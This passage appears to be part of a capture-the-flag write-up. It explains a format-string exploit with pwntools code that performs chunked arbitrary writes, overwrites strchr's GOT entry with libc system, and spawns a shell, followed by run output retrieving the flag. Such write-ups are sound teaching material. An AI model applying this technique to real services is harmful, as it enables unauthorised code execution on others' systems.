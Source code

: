 #### Arbitrary Write

```python
def write_2bytes(addr, value):
    payload = fmtstr_payload(16, {addr: p16(value)}, write_size='short')
    log.info(f"Writing {hex(value)} to {hex(addr)} with payload: {payload}")
    change_username(payload)
    display_info()

def arb_write(where, what):
    part1 = what & 0xffff
    part2 = (what >> 16) & 0xffff
    part3 = (what >> 32) & 0xffff
    write_2bytes(where, part1)
    write_2bytes(where + 2, part2)
    write_2bytes(where + 4, part3)
```

* **Offset 16:** Found via testing (`%16$n` targets stack addresses).
* **Chunking:** Splits a 48-bit address into three 16-bit writes.
* **Payload:** `fmtstr_payload` crafts the format string to write values.

#### Exploit Execution

```python
login(b'')
elf.address, libc.address = get_all_leaks()
log.info(f'PIE base: {hex(elf.address)}')
log.info(f'LIBC base: {hex(libc.address)}')

arb_write(elf.got['strchr'], libc.sym.system)
disconnect()
login(b'/bin/sh')
p.interactive()
```

1. **Login:** Starts session.
2. **Leaks:** Sets PIE and libc bases.
3. **Overwrite:** Replaces `strchr@got` with `system`.
4. **Trigger:** `login(b'/bin/sh')` calls `system("/bin/sh")`.
5. **Shell:** Interactive mode for flag retrieval.

***

### Execution

Running the script:

```
$ python3 solver.py
[+] Opening connection to d6fe6868a7d27e018e28b32b60ef6ab4.chal.ctf.ae:443: Done
[*] PIE leak: 0x55555555abcd
[*] Masked: 0x555555554000
[*] LIBC leak: 0x7ffff7b14a77
[*] LIBC base: 0x7ffff7a00000
[*] Writing 0x1234 to 0x555555558018...
[*] Switching to interactive mode
$ cat ../flag
flag{...}
```
